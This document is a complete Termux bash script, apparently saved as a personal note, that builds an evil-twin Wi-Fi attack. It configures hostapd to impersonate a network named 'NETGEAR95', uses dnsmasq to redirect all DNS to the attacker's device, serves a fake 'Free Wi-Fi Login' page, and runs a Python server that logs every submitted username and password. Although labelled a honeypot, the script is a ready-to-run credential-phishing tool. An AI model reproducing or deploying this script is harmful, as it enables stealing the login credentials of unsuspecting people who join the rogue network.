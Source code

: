```yaml
---
created: 2025-07-19T09:58:09-04:00
updated: 2025-07-19T09:58:42-04:00
---
```


# !/data/data/com.termux/files/usr/bin/bash

# Step 1: Install required packages
pkg update -y && pkg upgrade -y
pkg install -y hostapd dnsmasq openssh python httpd nmap

# Step 2: Configure hostapd (Fake Access Point)
cat <<EOF > ~/hostapd.conf
interface=wlan0
driver=nl80211
ssid=NETGEAR95
hw_mode=g
channel=6
wmm_enabled=0
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=Chris1991
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
EOF

# Step 3: Configure dnsmasq (DHCP + DNS)
cat <<EOF > ~/dnsmasq.conf
interface=wlan0
dhcp-range=10.0.0.100,10.0.0.200,255.255.255.0,12h
dhcp-option=3,10.0.0.223
dhcp-option=6,75.75.75.75,75.75.76.76
address=/#/10.0.0.223
log-queries
listen-address=10.0.0.223
EOF

# Step 4: Create fake login page
mkdir -p ~/honeypot/www
cat <<EOF > ~/honeypot/www/index.html
<!DOCTYPE html>
<html>
  <head>
    <title>Free Wi-Fi Login</title>
  </head>
  <body>
    <h2>Welcome to NETGEAR95</h2>
    <form method="POST" action="/login">
      Username: <input type="text" name="user"><br>
      Password: <input type="password" name="pass"><br>
      <input type="submit" value="Login">
    </form>
  </body>
</html>
EOF

# Step 5: Create login handler to log fake credentials
cat <<EOF > ~/honeypot/server.py
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs

class HoneypotHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        with open("www/index.html", "rb") as f:
            self.wfile.write(f.read())

    def do_POST(self):
        content_len = int(self.headers.get('Content-Length', 0))
        post_body = self.rfile.read(content_len).decode()
        creds = parse_qs(post_body)
        with open("creds.log", "a") as f:
            f.write(f"Captured: {creds}\\n")
        self.send_response(302)
        self.send_header('Location', '/')
        self.end_headers()

print("🕵️ Honeypot server running at http://0.0.0.0:80")
httpd = HTTPServer(('0.0.0.0', 80), HoneypotHandler)
httpd.serve_forever()
EOF

# Step 6: Start services (if supported)
echo "[*] Starting Fake Access Point..."
hostapd ~/hostapd.conf &

echo "[*] Starting dnsmasq..."
dnsmasq -C ~/dnsmasq.conf &

echo "[*] Starting Honeypot web server..."
cd ~/honeypot
python server.py


chmod +x ~/start_portal.sh
./start_portal.sh
